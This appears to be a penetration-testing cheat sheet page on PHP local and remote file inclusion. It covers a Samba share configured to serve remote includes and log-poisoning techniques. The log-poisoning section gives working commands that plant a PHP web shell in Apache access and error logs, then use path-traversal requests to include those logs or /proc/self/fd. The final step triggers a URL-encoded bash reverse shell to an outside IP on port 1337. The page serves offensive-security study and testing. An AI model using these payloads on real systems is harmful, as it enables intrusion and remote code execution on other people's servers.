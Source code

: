 ```yaml
---
description: Local/Remote File Inclusion
---
```


# LFI/RFI




## PHP RFI with SMB

* [http://www.mannulinux.org/2019/05/exploiting-rfi-in-php-bypass-remote-url-inclusion-restriction.html](http://www.mannulinux.org/2019/05/exploiting-rfi-in-php-bypass-remote-url-inclusion-restriction.html)

`/etc/samba/smb.conf`:

```
log level = 3
[share]
        comment = TEMP
        path = /tmp/smb
        writable = no
        guest ok = yes
        guest only = yes
        read only = yes
        browsable = yes
        directory mode = 0555
        force user = nobody
```

```
$ chmod 0555 /tmp/smb
$ chown -R nobody:nogroup /tmp/smb
$ service smbd restart
$ tail -f /var/log/samba/log.<HOSTNAME>
```




## Log Poisoning



### PHP

* [https://medium.com/bugbountywriteup/bugbounty-journey-from-lfi-to-rce-how-a69afe5a0899](https://medium.com/bugbountywriteup/bugbounty-journey-from-lfi-to-rce-how-a69afe5a0899)
* [https://outpost24.com/blog/from-local-file-inclusion-to-remote-code-execution-part-1](https://outpost24.com/blog/from-local-file-inclusion-to-remote-code-execution-part-1)

Access log (needs single `'` instead of double `"`):

```
$ nc 127.0.0.1 80
GET /<?php system($_GET['cmd']); ?>

$ curl 'http://127.0.0.1/vuln2.php?id=....//....//....//....//....//var//log//apache2//access.log&cmd=%2Fbin%2Fbash%20-c%20%27%2Fbin%2Fbash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.213%2F1337%200%3E%261%27'
Or
$ curl 'http://127.0.0.1/vuln2.php?id=....//....//....//....//....//proc//self//fd//1&cmd=%2Fbin%2Fbash%20-c%20%27%2Fbin%2Fbash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.213%2F1337%200%3E%261%27'
```

Error log:

```
$ curl -X POST 'http://127.0.0.1/vuln1.php' --form "userfile=@docx/sample.docx" --form 'submit=Generate pdf' --referer 'http://nowhere.com/<?php system($_GET["cmd"]); ?>'
$ curl 'http://127.0.0.1/vuln2.php?id=....//....//....//....//....//var//log//apache2//error.log&cmd=%2Fbin%2Fbash%20-c%20%27%2Fbin%2Fbash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.213%2F1337%200%3E%261%27'
Or
$ curl 'http://127.0.0.1/vuln2.php?id=....//....//....//....//....//proc//self//fd//2&cmd=%2Fbin%2Fbash%20-c%20%27%2Fbin%2Fbash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.213%2F1337%200%3E%261%27'
```
